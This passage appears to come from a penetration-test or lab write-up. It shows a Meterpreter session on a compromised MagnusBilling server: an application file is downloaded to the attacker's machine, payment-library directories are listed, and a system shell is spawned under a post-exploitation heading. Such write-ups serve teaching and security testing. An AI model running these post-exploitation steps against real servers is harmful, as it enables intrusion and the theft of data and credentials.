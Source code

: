 ```jsx
 * @license http://www.opensource.org/licenses/bsd-license.php BSD License
 * @link http://www.phpgangsta.de/
 */

class PHPGangsta_GoogleAuthenticator
{ ...

meterpreter > download GoogleAuthenticator.php
[*] Downloading: GoogleAuthenticator.php -> /home/neo/GoogleAuthenticator.php
[*] Downloaded 6.53 KiB of 6.53 KiB (100.0%): GoogleAuthenticator.php -> /home/neo/GoogleAuthenticator.php
[*] Completed  : GoogleAuthenticator.php -> /home/neo/GoogleAuthenticator.php
meterpreter > ls
Listing: /var/www/html/mbilling/lib/GoogleAuthenticator
=======================================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100700/rwx------  6685  fil   2024-02-27 14:44:28 -0500  GoogleAuthenticator.php

meterpreter > cd ..
meterpreter > ls
Listing: /var/www/html/mbilling/lib
===================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
040700/rwx------  4096  dir   2024-02-27 14:44:28 -0500  GoogleAuthenticator
040700/rwx------  4096  dir   2024-02-27 14:44:28 -0500  PlacetoPay
040700/rwx------  4096  dir   2024-02-27 14:44:28 -0500  anet
100700/rwx------  64    fil   2024-02-27 14:44:28 -0500  composer.json
100700/rwx------  2459  fil   2024-02-27 14:44:28 -0500  composer.lock
040700/rwx------  4096  dir   2024-02-27 14:44:28 -0500  gerencianet
040755/rwxr-xr-x  4096  dir   2025-04-18 13:27:23 -0400  icepay
040700/rwx------  4096  dir   2024-02-27 14:44:28 -0500  mercadopago
040700/rwx------  4096  dir   2024-02-27 14:44:28 -0500  stripe

```

### Open shell

## 🔐 Post-Exploitation and Privilege Escalation Report

**Session Gained:**

Access was initially obtained via a `meterpreter` shell. A secondary interactive shell was spawned:

```bash
meterpreter > shell
Process 2078 created.
Channel 2 created.

```
